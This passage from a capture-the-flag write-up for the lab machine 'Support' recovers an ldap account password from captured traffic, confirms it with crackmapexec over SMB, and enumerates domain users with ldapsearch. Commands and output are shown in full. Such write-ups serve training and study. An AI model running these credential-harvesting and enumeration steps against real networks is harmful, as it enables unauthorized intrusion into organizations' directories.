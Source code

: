 ![wireshark](Thu-11-2024_00-48.png)

I next right click and hit follow -> tcpstream. I see what looks like credentials for the `ldap` user. Very Cool.

![creds](Thu-11-2024_00-47.png)

I try to run `crackmapexec` with this password, and it doesn't work. After some fiddling, I get the idea that maybe the `$` at the beginning is just something inserted by the app and not actually part of the password. I try removing it, and it works.
```bash
┌──(kali㉿Kali)──[0:55:59]──[~/htb/Machines/Support/userinfo]
└─$ cme smb $IP -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
SMB         10.129.230.181  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.181  445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```
The first thing I do with this new access is get a list of all the domain users.
```bash
ldapsearch -x -H ldap://$IP -D 'SUPPORT\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=SUPPORT,DC=HTB"
```
I then run this with `grep` and `awk` to get a nice clean list.
```bash
──(kali㉿Kali)──[0:58:50]──[~/htb/Machines/Support/userinfo]
└─$ ldapsearch -x -H ldap://$IP -D 'SUPPORT\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=SUPPORT,DC=HTB" | grep sAMAccountName | awk -F': ' '{print $2}'
krbtgt
Domain Computers
Domain Controllers
Schema Admins
Enterprise Admins
Cert Publishers
Domain Admins
Domain Users
Domain Guests
Group Policy Creator Owners
RAS and IAS Servers
Allowed RODC Password Replication Group
Denied RODC Password Replication Group
Read-only Domain Controllers
Enterprise Read-only Domain Controllers
Cloneable Domain Controllers
Protected Users
```